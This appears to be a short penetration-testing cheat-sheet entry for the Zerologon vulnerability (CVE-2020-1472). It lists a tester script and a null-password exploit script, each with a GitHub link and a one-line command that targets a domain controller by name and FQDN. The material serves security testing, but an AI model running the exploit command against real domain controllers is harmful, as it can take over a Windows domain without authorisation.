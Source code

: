 # zerologon_tester.py

% msrpc, zerlogon

#plateform/linux #target/remote #cat/ATTACK/CONNECT  


## desc
```
https://github.com/SecuraBV/CVE-2020-1472
```

## test
```bash
zerologon_tester.py <dc_name> <dc_fqdn>
```

# zerologon-NullPass.py

% msrpc, zerlogon
#plateform/linux #target/remote #cat/ATTACK/EXPLOIT 

## desc
```bash
https://github.com/Sq00ky/Zero-Logon-Exploit
```

## run
```bash
zerologon-NullPass.py <dc_name> <dc_fqdn>
```